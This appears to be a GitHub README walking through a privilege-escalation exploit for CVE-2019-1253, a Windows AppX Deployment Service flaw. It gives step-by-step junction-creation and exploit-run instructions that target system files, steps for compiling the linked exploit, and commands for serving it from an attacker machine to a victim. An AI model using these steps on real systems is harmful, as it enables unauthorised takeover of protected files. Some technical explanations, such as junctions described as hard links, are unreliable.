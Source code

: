 ## CVE2019-1253-Compiled
Windows AppX Deployment -  Windows Elevation of Privilege Vulnerability

```
The “wsappx” process is part of Windows 8 and 10, and you may see it running in the background and it’s related to the Windows Store and Microsoft’s new “Universal” app platform. if you see the wsappx process running in your Task Manager, expand it and you’ll see one or both of the two subservices running (depending on which version of Windows you’re using). These services handle installing, removing, and updating Store apps.

In other words, this process is used for installing, uninstalling, and updating Store apps. Windows automatically updates Store apps in the background, and many of the apps included with Windows.

Note:An attacker can exploit this issue to gain the elevated privileges on the system.
```
## Tested on
![Screenshot](test.png?raw=true)

## How to Replicate this attack
So, Here is the Way ..!!
```
1. Check if exists directory ""C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe"
If not, launch Edge for the first time to create that directory.
2. Check if there are any Microsoft Edge running processes. In that case, kill all the processes.
3. Create temporary directory in C:\ , with your choice name.
4. Above Created directory we will use as mountpoint so now Create the hardlink to the targetted file within this directory.
(mklink /J "C:\testapp" "C:\Users\JohnUser\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\Settings")
5. Launch Microsoft Edge, it will crash and AppxSvc and takes SYSTEM ownership of the directory created by you in C: directory , if it doen't happen so don't worry it's okay.
5. Delete the local user directory for the Microsof Edge package appX after visiting "C:\Users\{Environment.UserName}\AppData\Local\Packages\" inside it. Delete everything except "C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\" this location inside the Package directory.
6. Try to removes permissions for current user from modify access to none, in my case i was not able to remove perm from the user so i lefted and proceed further to test the case.
7.Clear directory files from the mounted directory and try to re-create the hardlink to the targeted file inside this directory.
(it will say aleady exits , no worry move on)
8. git clone the Exploit and Check the permission of your target file which you are going to modify the permission.
(Target file may be choosen as "C:\WIndows\win.ini" or "C:\Windows\System32\drivers\etc\hosts" or you can choose many more systems file.)
9. Exploit it using AppxExploit.exe "C:\Windows\win.ini"
```
## Source Code of the Exploit can be found here

https://github.com/padovah4ck/CVE-2019-1253

## Screenshoot includes here
## Before
![Screenshot](whoami.png?raw=true)
![Screenshot](userinfo.png?raw=true)

## After 
![Screenshot](exploit.png?raw=true)
![Screenshot](winperm.png?raw=true)
![Screenshot](newperm.png?raw=true)

## Compile C# project from Visual Studio
Open your project to visual studio
```
Open Visual Studio --> Open Local Folder --> Select your Downloaded Folder --> Open CVE-2019-1253 --> AppExploit_Edge --> Select Folder --> Open
```
After opening your Project, just build it 
```
go to AppxExploit.csproject --> Double click to open --> Then at the top of the screen click on green icon to build
```
Now, Download and mimic exploitation.

## Transfer Exploit from AttackerPC to VictimPC
```python2.7
Python2.7:\>pyhton -m SimpleHTTPServer 90
```
```pyhton 3
Python3:\>python -m http.server
```

## How to create Hardlink, Softlink & junction
```
mklink Link Target
mklink /D Link Target
mklink /H Link Target
mklink /J Link Target
```
```
Use /D when you want to create a soft link pointing to a directory.
Use /H when you want to create a hard link pointing to a file:
Use /J to create a hard link pointing to a directory, also known as a directory junction:
```
## Technologies Affected

    Microsoft Windows 10 Version 1709 for ARM64-based Systems
    Microsoft Windows 10 Version 1803 for 32-bit Systems
    Microsoft Windows 10 Version 1803 for ARM64-based Systems
    Microsoft Windows 10 Version 1803 for x64-based Systems
    Microsoft Windows 10 Version 1809 for 32-bit Systems
    Microsoft Windows 10 Version 1809 for ARM64-based Systems
    Microsoft Windows 10 Version 1809 for x64-based Systems
    Microsoft Windows 10 Version 1903 for 32-bit Systems
    Microsoft Windows 10 Version 1903 for ARM64-based Systems
    Microsoft Windows 10 Version 1903 for x64-based Systems
    Microsoft Windows 10 version 1703 for 32-bit Systems
    Microsoft Windows 10 version 1703 for x64-based Systems
    Microsoft Windows 10 version 1709 for 32-bit Systems
    Microsoft Windows 10 version 1709 for x64-based Systems
    Microsoft Windows Server 1803
    Microsoft Windows Server 1903
    Microsoft Windows Server 2019

## References
https://github.com/padovah4ck/CVE-2019-1253

https://krbtgt.pw/dacl-permissions-overwrite-privilege-escalation-cve-2019-0841/

https://www.symantec.com/security-center/vulnerabilities/writeup/109913?om_rssid=sr-advisories

